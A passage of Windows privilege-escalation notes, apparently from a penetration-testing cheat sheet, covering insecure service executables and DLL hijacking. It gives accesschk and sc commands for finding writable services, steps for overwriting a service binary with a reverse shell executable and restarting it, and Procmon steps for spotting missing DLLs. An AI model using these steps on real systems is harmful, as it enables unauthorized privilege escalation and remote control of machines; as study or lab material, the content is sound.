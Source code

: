 ### Insecure Service Executables
If the original service executable is modifiable by our user, we can simply replace it with our reverse shell executable. Remember to create a backup of the original executable if you are exploiting this in a real system!

#### Check if executable is writable
```
.\accesschk.exe /accepteula -quvw "<PATH TO EXE>"
```

#### Create a backup of the original service executable:
```
copy "<PATH>" C:\Temp
```

#### Copy the reverse shell executable to overwrite the service executable:
```
copy /Y C:\PrivEsc\reverse.exe "<PATH>"
```

#### Start a listener on Kali, and then start the service to trigger the exploit:
```
net stop <SERVICE>
net start <SERVICE>
```

### DLL Hijacking
Often a service will try to load functionality from a library called a DLL (dynamic-link library). Whatever functionality the DLL provides, will be executed with the same privileges as the service that loaded it. If a DLL is loaded with an absolute path, it might be possible to escalate privileges if that DLL is writable by our user.

A more common misconfiguration that can be used to escalate privileges is if a DLL is missing from the system, and our user has write access to a directory within the PATH that Windows searches for DLLs in. Unfortunately, initial detection of vulnerable services is difficult, and often the entire process is very manual 

#### Check for a writable directory that is in path
Start by enumerating which of these services our user has stop and start access to:
```
.\accesschk.exe /accepteula -uvqc <USER> <SERVICE>
```

#### Confirm output of winpeas if DLL is vulnerable
```
sc qc <SERVICE>
```

1. Run Procmon64.exe with administrator privileges. Press Ctrl+L to open the Filter menu.
2. Add a new filter on the Process Name matching NAME.exe.
3. On the main screen, deselect registry activity and network activity.
4. Start the service:
5. Back in Procmon, note that a number of “NAME NOT FOUND” errors appear, associated with the .dll file.
6. At some point, Windows tries to find the file in the C:\Temp directory, which as we found earlier, is writable by our user.
